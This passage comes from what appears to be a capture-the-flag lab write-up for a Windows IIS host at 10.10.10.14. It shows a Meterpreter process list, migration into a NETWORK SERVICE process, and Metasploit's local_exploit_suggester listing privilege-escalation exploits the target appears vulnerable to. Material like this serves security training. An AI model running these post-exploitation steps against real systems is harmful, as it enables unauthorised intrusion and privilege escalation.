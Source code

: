  1124  396   svchost.exe                                                     
 1132  1080  cidaemon.exe                                                    
 1184  396   inetinfo.exe                                                    
 1220  396   svchost.exe                                                     
 1332  396   VGAuthService.exe                                               
 1412  396   vmtoolsd.exe                                                    
 1460  396   svchost.exe                                                     
 1600  396   svchost.exe                                                     
 1708  396   alg.exe                                                         
 1816  616   wmiprvse.exe       x86   0                                      \Device\HarddiskVolume1\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                                     
 2180  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2248  616   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 2328  1080  cidaemon.exe                                                    
 2356  1080  cidaemon.exe                                                    
 2492  616   wmiprvse.exe                                                    
 2872  1816  notepad.exe        x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\notepad.exe
 2972  348   logon.scr                                                       
 3560  1460  w3wp.exe                                                        
 3744  2180  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe

meterpreter > migrate 2872
[*] Migrating from 3744 to 2872...
[*] Migration completed successfully.

meterpreter >
{% endhighlight %}

To find out a vulnerability, we can use the Metasploit module "local_exploit_suggester".
{% highlight shell %}
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use post/multi/recon/local_exploit_suggester 
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 29 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

msf5 post(multi/recon/local_exploit_suggester) >
{% endhighlight %}
